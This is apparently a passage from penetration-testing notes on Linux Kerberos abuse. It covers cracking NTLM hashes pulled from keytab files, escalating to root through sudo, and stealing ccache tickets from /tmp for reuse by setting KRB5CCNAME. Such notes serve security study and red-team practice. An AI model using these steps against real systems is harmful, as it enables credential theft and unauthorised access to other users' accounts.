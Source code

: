 Note: A keypass file can contain different types of hashes and can be merged to contain multiple credentials even from different users.

The most straightforward hash to crack is the NTLM hash. We can use tools like Hashcat or John the Ripper to crack it. However, a quick way to decrypt passwords is with online repositories such as https://crackstation.net/, which contains billions of passwords.

![image](https://user-images.githubusercontent.com/24814781/204392375-03a1e971-a741-41bb-a07e-dc8acd06e7d2.png)


## Log in as a user
```
su - <user>@<domain>
```
```
klist
```

## Abusing Keytab ccache
To abuse a ccache file, all we need is read privileges on the file. These files, located in /tmp, can only be read by the user who created them, but if we gain root access, we could use them.

Once we log in with the credentials for the user <user>, we can use sudo -l and confirm that the user can execute any command as root. We can use the sudo su command to change the user to root. (obs: if possible etc)


##  Privilege Escalation to Root
```
sudo -l
```
```
sudo su / or any other priv esc method
```
As root, we need to identify which tickets are present on the machine, to whom they belong, and their expiration time.




## Looking for ccache Files
```
ls -la /tmp
```



## Importing the ccache File into our Current Session
```
klist
```
```
cp /tmp/<ccache file>
```
```
export KRB5CCNAME=/root/<ccache file>
```
